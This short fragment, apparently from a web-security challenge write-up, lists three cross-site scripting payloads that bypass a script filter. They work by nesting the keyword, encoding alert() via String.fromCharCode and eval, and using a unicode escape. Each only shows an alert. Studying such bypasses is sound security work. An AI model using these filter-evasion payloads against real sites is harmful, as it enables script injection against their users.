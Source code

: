 - Some exploit payloads:
    - <script>aleralertt("XSS")</script>
    - Also works: <script>eval(String.fromCharCode(97,%20108,%20101,%20114,%20116,%2040,%2039,%2072,%20101,%20108,%20108,%20111,%2044,%2032,%2087,%20111,%20114,%20108,%20100,%2033,%2039,%2041,%2059));</script>
    - Also works: <script>\u0061lert(1)</script>